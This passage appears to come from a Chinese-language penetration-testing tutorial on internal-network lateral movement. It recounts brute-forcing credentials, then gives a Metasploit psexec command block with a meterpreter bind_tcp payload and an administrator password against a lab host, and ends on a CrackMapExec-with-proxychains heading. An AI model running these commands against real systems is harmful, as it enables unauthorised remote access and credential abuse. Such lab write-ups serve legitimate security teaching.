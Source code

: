 满长时间爆破后最终爆破到了账号密码

[![](assets/1702372940-a1e89d287c4b383694ea397235be7805.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/OS/%E5%86%85%E7%BD%91/CS-%E5%86%85%E7%BD%91%E6%A8%AA%E5%90%91/42.png)

#### [](#%E7%9B%B4%E6%8E%A5%E5%88%A9%E7%94%A8%E5%B7%B2%E7%9F%A5%E8%B4%A6%E5%8F%B7%E5%AF%86%E7%A0%81 "直接利用已知账号密码")直接利用已知账号密码[](#%E7%9B%B4%E6%8E%A5%E5%88%A9%E7%94%A8%E5%B7%B2%E7%9F%A5%E8%B4%A6%E5%8F%B7%E5%AF%86%E7%A0%81)

```bash
use exploit/windows/smb/psexec
set payload windows/meterpreter/bind_tcp
set RHOSTS 192.168.91.11
set smbuser administrator
set smbpass Abcd1234!@#
run
```

[![](assets/1702372940-5e9650f5c30f76df50306901ebc9c1ea.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/OS/%E5%86%85%E7%BD%91/CS-%E5%86%85%E7%BD%91%E6%A8%AA%E5%90%91/44.png)

#### [](#%E4%BD%BF%E7%94%A8proxychains%E9%85%8D%E5%90%88%E4%BD%BF%E7%94%A8CrackMapExec "使用proxychains配合使用CrackMapExec")使用 proxychains 配合使用 CrackMapExec[](#%E4%BD%BF%E7%94%A8proxychains%E9%85%8D%E5%90%88%E4%BD%BF%E7%94%A8CrackMapExec)
